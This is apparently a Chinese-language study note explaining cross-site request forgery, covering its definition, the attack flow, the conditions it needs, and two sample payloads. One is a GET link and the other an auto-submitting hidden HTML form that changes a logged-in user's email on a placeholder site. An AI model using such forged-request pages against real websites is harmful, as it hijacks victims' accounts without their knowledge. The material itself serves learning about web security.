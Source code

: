## CSRF
### 1、介绍
```yaml
1、跨站请求伪造(也称为 CSRF)是一种 Web 安全漏洞
2、允许攻击者诱导用户执行他们不打算执行的操作
```
### 2、攻击过程
```yaml
1.用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A; 
2.在用户信息用过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A;
3.用户未退出网站A之前，在同一浏览器中打开一个TAB⻚访问网站B; 
4.网站B接受到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A;
5.浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。
  网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的 恶意代码被执行。
```
### 3、形成CSRF的条件
```yaml
1、一个功能操作。例如更改用户自己的密码
2、基于 Cookie的会话处理
3、没有不可预测的请求参数
    如：token（用完即焚），短信验证码等
```
### 4、GET请求，后面跟自己点参数，让用户点即可
```shell script
https://vulnerable-website.com/email/change?email=lx@qq.com # 用户浏览器已经登陆https://vulnerable-website.com，诱导用户点击，然后修改emial成功
```
### 5、POST请求，需要注意，隐藏标签type="hidden"
```html
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST"> <!-- 访问某个页面，这个页面是用户已经登陆的状态，发送post请求 -->
        <input type="hidden" name="email" value="lx@qq.com" />  <!-- 隐藏input标签，key是email，value是自己设定邮箱 -->
    </form>
    <script>
        document.forms[0].submit();     // 默认自动提交请求
    </script>
  </body>
</html>
```